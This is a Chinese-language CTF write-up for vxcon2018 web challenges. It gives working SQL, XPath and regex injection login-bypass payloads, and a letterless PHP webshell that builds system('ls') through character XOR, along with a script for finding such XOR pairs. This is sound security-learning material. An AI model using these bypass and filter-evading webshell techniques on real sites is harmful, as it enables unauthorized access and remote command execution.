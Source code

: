 # vxcon2018
這次比賽個人覺得難度沒有很高(因為我至少有頭緒:joy:)，題目質量都能確保讓我們學到東西， 下面紀錄一些賽後解出來的題目...

## Lock Pick Duck (1)
[source code]()  
payload滿足三個條件就能拿到第一把flag  
```php
if(@preg_match("/^$U,$P$/m", $csvdb)){
        $flag++;
        echo "csvdb1\n";
    }

    if(@$sqldb->querySingle("SELECT username FROM users WHERE username='$U' AND password='$P'") == TRUE){
        $flag++;
        echo "sqldb1\n";
    }

    if(@$xmldb->xpath("//users/user[username='$U' and password='$P']") == TRUE){
        $flag++;
        echo "xmldb1\n";
    }
```
上面是通過的三個條件：  
2和3很簡單，sql injection 和 xpath injection 用
```php
?username='or''='&password='or''='
```
就可以通過  
第一個條件我就想了很久，注入正則想也知道洞很大，卻遲遲想不到怎麼注入  
賽後才知道，不如讓全部都匹配吧:+1:  
```php
?username=(.*)|' or ''='&password=(.*)|' or ''='
```
這樣就可以拿到第一把flag： `Flag 1: vxctf{y0u_d0_kn0w_InjectI0n_101}`  
除此之外，肯定還有很多繞過方法

## Lock Pick Duck (2)
繼上題一樣的source code，payload滿足六個條件就能拿到第二把flag  
第二題我目前最多只能構造到四個條件，xpath的條件都跟其他條件衝突  
不過也學到不少關於`preg_match`跟正則的關係  
payload: `http://trick.fflm.ml/?username=(a)|' union select 'a'--&password=a`  
必須重複刷新直到csv架構中出現**a**字元：`Flag 1: vxctf{y0u_d0_kn0w_InjectI0n_101}`


## Patch Peep Huck (w)
```php
 <?=
!$I=&$_FILES[!!$l='tmp_name'] || $I['size']>>7 || preg_match('/\w/',join(file($I[$l])))?
!show_source(__FILE__) : !include($I[$l]);
```
我在比賽時碰到了**讀不懂代碼**的問題:cold_sweat:  
賽後看了@kaibro的wp真的是讓我驚呆了呀  
首先是:
```php
$_FILES[!!$l='tmp_name']
```
這部分，我對`$_FILES`的結構還是有所了解的。`tmp_name`應該是要在第二層陣列之中，我在這裡卡了好久。原來問題出在`!!`，`!!`會將語句轉為boolean回傳true or false！  
這裏將`tmp_name`傳入參數的動作一定會回傳true，因此事實上這裏傳入`$I`的東東就是`$_FILES[1]`。  
解開了代碼的疑惑，再來看題目想幹嘛：  
上傳FILE，限制FILE的size，並且將FILE的內容join成字串做匹配  
典型的上傳webshell題，內容不能帶有字母，數字，底線  
(上傳檔案不一定要用burp代理，也可以自己寫個upload form，把action設給題目就好)  
一開始我卡在**底線的部分**很久，賽後看了@kaibro引用了在@l4w中的技巧 -> 表情符號  
終於自己寫出了個payload：  
```php
<?=
$😊 = "||||%-" ^ "/%/(``"; 
$😊 ("`|" ^ ",/");
```
剛開始解題的時候，我也有常識XOR的思路，根據P師傅的說法，我們可以用兩個特殊符號做XOR構造出a-z之間的字母，可是我卻怎麼湊都湊不出來...  
賽後才想到，乾脆來寫個php，把所以特殊符號之間的XOR都列出來，直接查表不就得了:  
```php
$arr1 = array("!","'","#","%","&","(",")","[","]","/","\\","?",".",",","^","_","~","*","+","-","<",">","=","{","}","\"",":",";","`","|");
$arr2 = array("!","'","#","%","&","(",")","[","]","/","\\","?",".",",","^","_","~","*","+","-","<",">","=","{","}","\"",":",";","`","|");

foreach ($arr1 as $value1) {
	foreach ($arr2 as $value2) {
		$x = $value1^$value2;
		print($x." ".$value1." ".$value2);
		echo "<br/>";
	}
	echo "<br/>";
}
```
於是通過上面的懶蟲法，我成功湊出了`<?=SYSTEM(LS);`的payload  

## Reference
1. [Kaibro WP](https://github.com/w181496/CTF/tree/master/vxcon2018)  
2. [官方詳解](https://github.com/ozetta/ctf-challenges)

